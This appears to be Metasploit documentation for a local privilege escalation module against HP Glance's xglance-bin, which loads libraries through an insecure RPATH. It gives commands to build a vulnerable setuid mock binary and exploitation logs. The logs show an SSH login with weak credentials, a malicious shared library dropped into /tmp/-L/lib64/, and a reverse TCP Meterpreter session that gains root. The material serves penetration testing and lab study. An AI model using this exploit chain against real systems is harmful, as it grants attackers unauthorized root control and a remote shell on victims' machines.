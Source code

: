 ## Vulnerable Application

This exploit takes advantage of the fact that xglance-bin, part of
HP's Glance (or Performance Monitoring) version 11'and subsequent'
, was compiled with an insecure RPATH option that attempts to load
libraries from a user controlled location (-L/lib64/).
Creating libraries in this location will result in an escalation
of privileges to root.

### Mock Application

Unfortunately the application is a pay for application and the version is many years old by the time the
PoC was released.  Instead, we use a mock binary based on the permissions noted in the original CVE
announcement, and the `ldd` details from the PoC.

The following commands were performed on Fedora 31 to create the binary.
When the binary was pushed to rhel7.1 for testing, a 'of size' libXm.so.4 was required
so ```cp /lib64/libffi.so.6 ./-L/lib64/libXm.so.4``` was enough to make the binary
vulnerable.

    ```
    sudo su
    cd ~
    dnf install motif-devel
    
    cat > main.c << DONE
    #include <stdio.h>
    #include <Xm/Xm.h>
    
    void main(){
        printf("HP xglance-bin emulator %d\n",XmVERSION);
        char* x = XmCvtXmStringToCT(NULL);
        printf("%p",x);
    }
    
    DONE
    
    
    mkdir -p ./-L/lib64;
    cd ./-L/lib64;
    ```
The follow commands copies files to the path for building.
However, they may not be installed on a default rhel system.

    ```
    # libXm.so.3 may fail on newer systems like fedora 31
    cp /usr/lib64/libXm.so.3 .;
    cp /usr/lib64/libXm.so.4 libXm.so.3;
    cp /usr/lib64/libXp.so.6 .;
    cp /usr/lib64/libXt.so.6 .;
    cd ../..;
    ```
    gcc -lXm main.c -o xglance-bin -Wl,-rpath=-L/lib64:/usr/lib64:/usr/X11R6/lib64:/opt/perf/lib64;
    mkdir -p /opt/perf/bin/;
    cp xglance-bin /opt/perf/bin/;
    chown root:bin /opt/perf/bin/xglance-bin;
    chmod 4555 /opt/perf/bin/xglance-bin;
    ```

To confirm the file is vulnerable, run:
    ```
    [fedora@fedora31 ~]$ ldd /opt/perf/bin/xglance-bin | grep -- -L/lib64/
            libXt.so.6 => -L/lib64/libXt.so.6 (0x00007f727441b000)
            libXp.so.6 => -L/lib64/libXp.so.6 (0x00007f72742b2000)
    ```
We'll want to see one or more `libX*.so*` files with `-L/lib64/`.


## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a session
  4. Do: ```use exploit/linux/local/hp_xglance_priv_esc```
  5. Do: ```set session #```
  6. Do: ```run```
  7. You should get a root shell.
 
## Options

### COMPILE

If the .so exploit should be compiled on the system.  `gcc` is required.
More noisey, but more AV resilient. Default is `true`

## Scenarios

### Mock binary on Fedora 31 with compile

    ```
    [*] Processing xglance.rb for ERB directives.
    resource (xglance.rb)> use auxiliary/scanner/ssh/ssh_login
    resource (xglance.rb)> set rhosts 2.2.2.2
    rhosts => 2.2.2.2
    resource (xglance.rb)> set username fedora
    username => fedora
    resource (xglance.rb)> set password fedora
    password => fedora
    resource (xglance.rb)> run
    [+] 2.2.2.2:22 - Success: 'fedora:fedora' ''
    [*] Command shell session 1 opened (1.1.1.1:34379 -> 2.2.2.2:22) at 2020-04-19 14:39:45 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    ```
    resource (xglance.rb)> use exploit/linux/local/hp_xglance_priv_esc
    resource (xglance.rb)> set session -1
    session => -1
    resource (xglance.rb)> set verbose true
    verbose => true
    resource (xglance.rb)> rexploit
    [*] Reloading module...
    [!] SESSION may not be compatible with this module.
    [*] Started reverse TCP handler on 1.1.1.1:4444
    [+] xglance-bin found, and linked to vulnerable relative path -L/lib64/ through libXt.so.6
    [*] Deleting exploit folder: /tmp/-L
    [*] Creating exploit folder: /tmp/-L/lib64/
    [+] gcc is installed
    [*] Live compiling exploit on system...
    [*] Max line length is 65537
    [*] Writing 106298 bytes in 7 chunks of 61359 bytes (octal-encoded), using printf
    [*] Next chunk is 61584 bytes
    [*] Next chunk is 60411 bytes
    [*] Next chunk is 61525 bytes
    [*] Next chunk is 61438 bytes
    [*] Next chunk is 61757 bytes
    [*] Next chunk is 30375 bytes
    [*] uploading payload
    [*] Writing '/tmp/.u4aLoiq' (207 bytes) ...
    [*] Max line length is 65537
    [*] Writing 207 bytes in 1 chunks of 630 bytes (octal-encoded), using printf
    [*] Launching xglance-bin...
    [*] Transmitting intermediate stager...(106 bytes)
    [*] Sending stage (980808 bytes) to 2.2.2.2
    [*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:55298) at 2020-04-19 14:40:05 -0400
    
    meterpreter > getuid
    Server username: no-user @ fedora31 (uid=0, gid=1000, euid=0, egid=1000)
    meterpreter > shell
    Process 1699 created.
    Channel 1 created.
    whoami
    root
    ^Z
    Background channel 1? [y/N]  y
    meterpreter > sysinfo
    Computer     : 2.2.2.2
    OS           : Fedora 31 (Linux 5.3.7-301.fc31.x86_64)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
    meterpreter > 
    ```

### Mock binary on rhel 7.1 no compile

    ```
    [*] Processing xglance.rb for ERB directives.
    resource (xglance.rb)> use auxiliary/scanner/ssh/ssh_login
    resource (xglance.rb)> set rhosts 2.2.2.2
    rhosts => 2.2.2.2
    resource (xglance.rb)> set username redhat
    username => redhat
    resource (xglance.rb)> set password redhat
    password => redhat
    resource (xglance.rb)> run
    [+] 2.2.2.2:22 - Success: 'redhat:redhat' ''
    [*] Command shell session 1 opened (1.1.1.1:45901 -> 2.2.2.2:22) at 2020-04-19 14:59:53 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    ```
    msf5 exploit(linux/local/hp_xglance_priv_esc) > rexploit
    [*] Reloading module...

    [!] SESSION may not be compatible with this module.
    [*] Started reverse TCP handler on 1.1.1.1:4444 
    [+] xglance-bin found, and linked to vulnerable relative path -L/lib64/ through libXm.so.4
    [*] Deleting exploit folder: /tmp/-L
    [*] Creating exploit folder: /tmp/-L/lib64/
    [*] Dropping pre-compiled exploit on system...
    [*] Writing '/tmp/-L/lib64/libXm.so.3' (368248 bytes) ...
    [*] Max line length is 65537
    [*] Writing 368248 bytes in 23 chunks of 46385 bytes (octal-encoded), using printf
    [*] Next chunk is 53790 bytes
    [*] Next chunk is 38675 bytes
    [*] Next chunk is 38759 bytes
    [*] Next chunk is 38694 bytes
    [*] Next chunk is 38757 bytes
    [*] Next chunk is 38658 bytes
    [*] Next chunk is 63466 bytes
    [*] Next chunk is 62734 bytes
    [*] Next chunk is 63857 bytes
    [*] Next chunk is 63812 bytes
    [*] Next chunk is 46324 bytes
    [*] Next chunk is 35989 bytes
    [*] Next chunk is 38405 bytes
    [*] Next chunk is 38978 bytes
    [*] Next chunk is 38950 bytes
    [*] Next chunk is 38935 bytes
    [*] Next chunk is 40042 bytes
    [*] Next chunk is 63562 bytes
    [*] Next chunk is 63562 bytes
    [*] Next chunk is 63521 bytes
    [*] Next chunk is 63618 bytes
    [*] Next chunk is 28951 bytes
    [*] uploading payload
    [*] Writing '/tmp/.u4aLoiq' (207 bytes) ...
    [*] Max line length is 65537
    [*] Writing 207 bytes in 1 chunks of 630 bytes (octal-encoded), using printf
    [*] Launching xglance-bin...
    [*] Transmitting intermediate stager...(106 bytes)
    [*] Sending stage (980808 bytes) to 2.2.2.2
    [*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:33373) at 2020-04-19 15:09:55 -0400
    [+] Deleted /tmp/-L/lib64/libXm.so.3
    [+] Deleted /tmp/.u4aLoiq
    
    meterpreter > getuid
    Server username: no-user @ localhost.localdomain (uid=0, gid=1000, euid=0, egid=1000)
    meterpreter > sysinfo
    Computer     : localhost.localdomain
    OS           : Red Hat Enterprise Linux 7 (Linux 3.10.0-229.el7.x86_64)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
    meterpreter >
    ```
